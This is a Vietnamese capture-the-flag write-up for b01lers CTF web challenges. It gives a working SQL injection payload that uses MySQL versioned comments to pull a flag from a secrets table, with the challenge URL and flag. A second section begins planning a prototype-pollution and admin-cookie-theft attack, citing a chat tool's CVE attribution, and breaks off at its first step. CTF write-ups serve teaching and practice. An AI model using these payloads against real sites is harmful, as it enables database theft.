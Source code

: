 ![image](https://hackmd.io/_uploads/BJXpqpVyll.png)
nếu bỏ đi phần comment câu truy vấn của chúng ta sẽ có dạng
`SELECT * from users WHERE name = 'k' ''`

![image](https://hackmd.io/_uploads/rJ4UjaE1xe.png)
Vậy chỉ có thể là lỗi Syntax cần 1 kí tự nào đó để chèn vào giữa cho nó hợp lệ . Và đó là `order by`
`SELECT * from users WHERE name = 'k' order by ''`
![image](https://hackmd.io/_uploads/BJG8hpVyxe.png)
Vậy giờ hãy gắn khẩu súng vào nào
Câu lệnh sẽ là
`SELECT * from users WHERE name = 'k' {payload} order by 'x'`
PAYLOAD
`/*!50000%20union%20select%20%60key%60,%60value%60,3%20from%20secrets%20where%20%60key%60='flag'*/`
URL sẽ có dạng
`https://defense-in-depth.harkonnen.b01lersc.tf/info/`
`k' `
`/*!50000%20union%20select%20%60key%60,%60value%60,3%20from%20secrets%20where%20%60key%60='flag'*/`
`order by 'x`
![image](https://hackmd.io/_uploads/Sk3YapVJlg.png)
NICE!
FLAG: `bctf{7h1s_1s_prob4bly_the_easiest_web_s0_go_s0lve_smt_3ls3_n0w!!!}`

## No code

![image](https://hackmd.io/_uploads/S14-KGPyxl.png)

---

![image](https://hackmd.io/_uploads/rJ0Jr1BJll.png)
Đọc đến có vẻ là lấy cookie là xong
Sơ qua về `admin-bot/app/index.js` xử lí 1 url , truy cập đến nó -> mở 1 browser Context chứa **flag** ở **cookie** và 1 trang mới để truy cập URL với `timeout` 5s
Chưa thấy liên quan gì đến `routeLinks()` ở bên `app/scripts/routing.js`
Đọc qua thì thấy cơ chế của bài này là con `admin` truy cập vào `URL` của trang `no code` này . Bên cạnh đó `admin-bot` gán `cookie` vào tên miền mình vừa truy cập .
:::success
Nhiệm vụ của mình là làm sao để truy cập vào tên miền đó mà có thể lấy được `cookie` cái mà vừa được gắn vào `domain` của trang `web` chính
:::

![image](https://hackmd.io/_uploads/rk16lmP1lx.png)
Chat : lỗ hổng `prototype pollution` trong `module @fastify/formbody` (hoặc các plugin liên quan như `fastify-multipart`) được xác định với mã `CVE-2020-8136`. Lỗ hổng này ảnh hưởng đến các phiên bản của fastify-multipart trước 1.0.5, cho phép kẻ tấn công gửi các yêu cầu `multipart` được chế tạo đặc biệt để thao túng `prototype` của đối tượng, dẫn đến khả năng crash ứng dụng hoặc thực hiện các hành vi không mong muốn

1. Đầu tiên ta sẽ request đến url của trang phụ để thay đổi prototype
   ![image](https://hackmd.io/_uploads/H1YOYmwkgx.png)
   Do phần parse của con trang phụ này cũng không sanitize các `prototype malicious`

